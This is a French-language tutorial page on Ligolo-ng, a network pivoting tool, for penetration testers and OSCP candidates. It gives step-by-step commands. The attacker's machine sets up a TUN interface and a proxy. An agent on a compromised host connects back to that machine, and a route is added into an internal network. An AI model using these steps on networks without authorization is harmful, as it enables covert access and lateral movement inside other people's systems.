

---
description: "Ligolo-ng — L'outil de pivoting réseau moderne et performant utilisant des interfaces TUN pour un tunneling transparent."
icon: lucide/book-open-check
tags: ["PENTEST RÉSEAU", "LIGOLO-NG", "PIVOTING", "TUNNELING", "RED TEAM"]
---

# Ligolo-ng — Le Tunnelier de l'Extrême

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="0.5+"
  data-time="~1 heure">
</div>


## Introduction

!!! quote "Analogie pédagogique — Le Prolongateur de Câble Magique"
    Imaginez que vous êtes dans un bâtiment (le réseau externe) et que vous voulez accéder à une pièce verrouillée au fond d'un couloir (le réseau interne). Les outils classiques comme SSH-Dynamic ou Chisel sont comme des périscopes : vous voyez à travers, mais vous ne pouvez pas vraiment "entrer". **Ligolo-ng** est un prolongateur de câble magique. Vous branchez une extrémité sur votre machine de hacker et l'autre sur une machine compromise à l'intérieur. Instantanément, votre propre machine semble être *physiquement* connectée au réseau interne.

**Ligolo-ng** est un outil de pivoting réseau ultra-performant. Contrairement aux proxys SOCKS traditionnels (souvent lents et limités), Ligolo crée une véritable **interface réseau virtuelle (TUN)** sur la machine de l'attaquant, rendant le tunneling totalement transparent.

<br>

---

## Pourquoi Ligolo-ng surpasse SOCKS ?

| Caractéristique | Proxy SOCKS (Chisel/SSH) | Ligolo-ng (TUN) |
|---|---|---|
| **Vitesse** | Lente (overhead TCP important) | Très rapide (proche des performances natives) |
| **Utilisation** | Nécessite `proxychains` (instable) | Utilisation directe des outils système (Nmap, etc.) |
| **Protocoles** | Limité (souvent TCP uniquement) | Supporte tout (ICMP, UDP, TCP, etc.) |
| **Simplicité** | Configuration complexe de Proxychains | Une simple route système IP standard |

<br>

---

## Architecture de l'Attaque

Ligolo fonctionne avec deux composants distincts :
1.  **Proxy** : S'exécute sur la machine de l'attaquant (ex: Kali Linux).
2.  **Agent** : S'exécute sur la machine compromise (le point de pivot).



<br>

---

## Usage Opérationnel (Pas à Pas)

### 1. Préparation sur Kali (Attaquant)
Il est nécessaire de créer une interface réseau virtuelle (TUN) pour acheminer le trafic.

```bash title="Initialisation de l'interface TUN et du serveur Proxy"
# Créer l'interface TUN nommée 'ligolo'
sudo ip tuntap add user <votre_user> mode tun ligolo
sudo ip link set ligolo up

# Lancer le serveur proxy sur le port par défaut
# -selfcert : Génère un certificat auto-signé pour le chiffrement
./proxy -selfcert -laddr 0.0.0.0:11601
```
_Cette configuration prépare votre machine à recevoir la connexion de l'agent et à router le trafic via l'interface `ligolo`._

### 2. Sur la machine Pivot (Agent)
On connecte l'agent au serveur proxy de l'attaquant.

```bash title="Connexion de l'agent au serveur distant"
# -connect : Adresse IP et port du serveur proxy (Kali)
# -ignore-cert : Ignore la vérification du certificat auto-signé
./agent -connect <IP_KALI>:11601 -ignore-cert
```
_L'agent établit un tunnel persistant et chiffré vers l'attaquant, prêt à servir de passerelle._

### 3. Activer le Tunnel et le Routage
Dans l'interface interactive du proxy sur Kali, sélectionnez la session active et lancez le tunnel.

```bash title="Configuration du routage système sur l'attaquant"
# Une fois dans le shell ligolo-proxy :
# session -> 1 (choisir la session)
# start (démarrer le tunnel)

# Sur votre machine Kali (nouveau terminal) :
# Ajouter la route vers le réseau interne cible
sudo ip route add 172.16.5.0/24 dev ligolo
```
_Désormais, tout outil lancé sur Kali (ex: `nmap 172.16.5.10`) communiquera directement avec le réseau interne via l'interface `ligolo`._

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Ligolo-ng est l'outil qui a révolutionné le pivoting ces dernières années. Sa capacité à transformer votre machine locale en un membre à part entière du réseau cible simplifie radicalement les attaques complexes et multisegments. C'est l'outil de choix pour les examens comme l'OSCP ou les opérations Red Team réelles.

> Pour des scénarios où vous ne pouvez pas créer d'interface TUN sur votre machine, l'alternative de référence reste **[Chisel](./chisel.md)**.


